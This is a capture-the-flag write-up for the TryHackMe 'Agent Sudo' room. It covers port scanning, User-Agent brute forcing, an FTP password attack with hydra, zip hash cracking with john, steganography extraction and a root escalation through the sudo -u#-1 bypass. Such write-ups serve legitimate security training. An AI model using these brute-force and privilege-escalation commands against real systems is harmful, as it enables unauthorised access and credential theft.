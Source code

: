 ```yaml
---
title: "Agent Sude Writeup | TryHackMe"
layout: page
---
```


# Agent Sudo
You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.
[Join the room here](https://tryhackme.com/room/agentsudoctf)
## Nmap Scan
```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```
There are three ports open FTP on port 21, SSH on port 22 and web on port 80

## Enumeration
Agents have codename which is a single alphabet, Using Burp Suite I was able to bruteforce user-agent and the user-agent was C
It redirected me to http://<MACHINE_IP>/agent_C_attention.php
There I found a little text message
```
Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

From,
Agent R 
```
And we found the user `chris`

## Exploitation
Bruteforcing using hydra `hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://<MACHINE_IP>`
> username - chris

> password - XXXXXXX

Now we know the password, we can login through FTP
Using an ls command we can see all the files in the FTP server
```
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
```
Dumped all the files using `mget *`
I used `binwalk -e cutie.png` to extract all hidden files, Found a 8702.zip and it is encrypted
I am using `zip2john 8702.zip > Output.txt` to extract the hash fro ZIP file for john to crack and `john Output.txt` to crack the hash and we got the password alien

Extracted 8702.zip using `7z e 8702.zip` using the password we previously cracked, The ZIP consisted a TXT file `To_agentR.txt`
Opening the `To_agentR.txt` has the following message
```
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```
There is a little encoded string Its was Base64 encoded, It decodes to `Area51`
Using the `steghide — extract -sf cute-alien.jpg` to find hidden files in the other jpg it was asking for a passphrase and I used the previous decoded string, After extracting we got a file `message.txt`
```
Hi james,

Glad you find this message. Your login password is XXXXXXXXXXXX 

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```
Awesome! We got SSH credentials. Let us login using the credentials
> username - james

> password - XXXXXXXXXXXX

Got our first flag `user_flag.txt`
## Priveleges Escalation 

running `sudo -l` to know the priveleges of the current logged in user
```
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```
After searching about `(ALL, !root) /bin/bash` I got to know that its a vulnerability that allows root access 
```
vulnerability is relevant in a specific configuration in the Sudo security policy,
called “sudoers”, which helps ensure that privileges are limited only to specific users.
(source:whitesourcesoftware)
```
Got the root shell using `sudo -u#-1 /bin/bash` and we got our root flag in `/root/root.txt`
